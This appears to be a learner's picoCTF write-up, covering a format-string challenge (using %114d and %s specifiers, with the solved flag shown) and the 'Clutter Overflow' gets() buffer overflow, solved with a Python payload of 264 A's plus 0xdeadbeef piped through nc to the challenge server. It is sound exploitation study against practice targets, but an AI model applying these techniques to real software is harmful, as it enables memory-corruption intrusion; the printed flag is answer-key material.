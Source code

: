     ```

## Flag: 
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_ef312157}

## Concepts learnt:

The critical vulnerability where user-controlled input is used as the format string for printf and learned that printf returns an int equal to the total number of characters printed. This was the mechanism for the check in `serve_patrick`.
  - `%114d`: to "inflate" the output of `printf` to pass a size check.
  - `%s`: specifier works by popping a pointer from the stack and reading from that address.
 
A bit more than previous challenge this challenge made me learn to cause crashing by printing a string from popping a pointer in stack which will not be found and hence cause error.
## Notes:

  - Initially got confused on how to cause crash since like last challenge was treing to increase the bit size to cause stack overflow unaware could have caused crash by different reasons as well
##References

 -  https://www.youtube.com/watch?v=0N8d7Yw-sN8
 - https://www.tutorialspoint.com/cprogramming/c_format_specifiers.htm


------------------------------------------------------------------
# 3. Clutter Overflow
in this challenge had to use buffer overflow for our desired result.

##Solution

I started by reading the chall.c file to understand what happens. I saw a `gets` function and realised my point of attack backtracing it I came to know get bypass clutter if we give our input sufficient high value if will ovwewrite the code from 0 and give me flag
 
 - So I started by giving a long `AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`.
 - Since output didn't overflow went again to see size as `0x100`. also to 256 characters and gave input as 257 A's but that failed too. Realised that forget to indulge value of code memory (mostly 8 bits) so went on to give new input as 265 A's
 
```
code == 0x41
code != 0xdeadbeef :(
```
 - Analysing this output and code back again, this just wasn't a case of overflow but to set a particular value after overflow. S0 `python3 -c 'import sys; sys.stdout.buffer.write(b"A"*264 + b"\xef\xbe\xad\xde" + b"\n")' | nc mars.picoctf.net 31890` was my new input with 264 A's and next 8 bits as code we wanted to get piped to host `nc mars.pico.net 31890 ` 

```
ritesh@LAPTOP-9AUNFI81:~$ nc mars.picoctf.net 31890
 ______________________________________________________________________
|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^|
| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |
|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ==================^ ^ ^|
| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ___ ^ ^ ^ ^ /                  \^ ^ |
|^ ^_^ ^ ^ ^ =========^ ^ ^ ^ _ ^ /   \ ^ _ ^ / |                | \^ ^|
| ^/_\^ ^ ^ /_________\^ ^ ^ /_\ | //  | /_\ ^| |   ____  ____   | | ^ |
|^ =|= ^ =================^ ^=|=^|     |^=|=^ | |  {____}{____}  | |^ ^|
| ^ ^ ^ ^ |  =========  |^ ^ ^ ^ ^\___/^ ^ ^ ^| |__%%%%%%%%%%%%__| | ^ |
|^ ^ ^ ^ ^| /     (   \ | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |/  %%%%%%%%%%%%%%  \|^ ^|
.-----. ^ ||     )     ||^ ^.-------.-------.^|  %%%%%%%%%%%%%%%%  | ^ |
|     |^ ^|| o  ) (  o || ^ |       |       | | /||||||||||||||||\ |^ ^|
```